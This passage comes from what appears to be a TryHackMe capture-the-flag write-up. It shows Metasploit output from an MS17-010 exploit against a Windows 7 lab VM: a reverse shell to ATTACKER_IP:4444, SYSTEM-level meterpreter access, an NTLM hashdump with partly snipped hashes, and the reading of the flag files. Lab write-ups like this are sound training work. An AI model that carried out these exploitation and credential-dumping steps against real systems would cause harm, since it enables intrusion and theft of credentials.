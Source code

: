 [*] Started reverse TCP handler on ATTACKER_IP:4444 
[*] VICTIM_IP:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] VICTIM_IP:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Home Basic 7600 x64 (64-bit)
[*] VICTIM_IP:445      - Scanned 1 of 1 hosts (100% complete)
[*] VICTIM_IP:445 - Connecting to target for exploitation.
[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
meterpreter &gt; getuid
Server username: NT AUTHORITY\SYSTEM
</span></span></code>
        </pre>
    </div>
</div>

Now that we have exploited the Virtual Machine and have achieved System 
level access, we can use the hashdump command to retrieve the users NTLM
 hashes:<div class="terminal-container">
    <div class="terminal-content">
        <div class="terminal-top">
            Running Hashdump
        </div>
        <pre class="terminal-code language-shell-session" tabindex="0">           <code class=" language-shell-session"><span class="token output">meterpreter &gt; hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c156d5d&lt;snip!&gt;4d6e0943c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae93&lt;snip!&gt;d7e0c089c0:::
Ted:1001:aad3b435b51404eeaad3b435b51404ee:2e2618f266da8867&lt;snip!&gt;5c1309a5c:::
meterpreter &gt; 
</span></code>
        </pre>
    </div>
</div>

All that is left is to now retrieve the flags in the user's Home folders:
<div class="terminal-container">
    <div class="terminal-content">
        <div class="terminal-top">
            Collecting our flags!
        </div>
        <pre class="terminal-code language-shell-session" tabindex="0">           <code class=" language-shell-session">
<span class="token output">meterpreter &gt; cat C:/Users/Administrator/Desktop/root.txt
THM{bd6ea6c87&lt;snip!&gt;21081132744}
meterpreter &gt; cat C:/Users/Ted/Desktop/user.txt
THM{217fa45e3&lt;snip!&gt;fc0be28e760} 
</span></code>
        </pre>
    </div>
</div>
And that's all there is to it! You have successfully compromised Ted's PC.
</details>
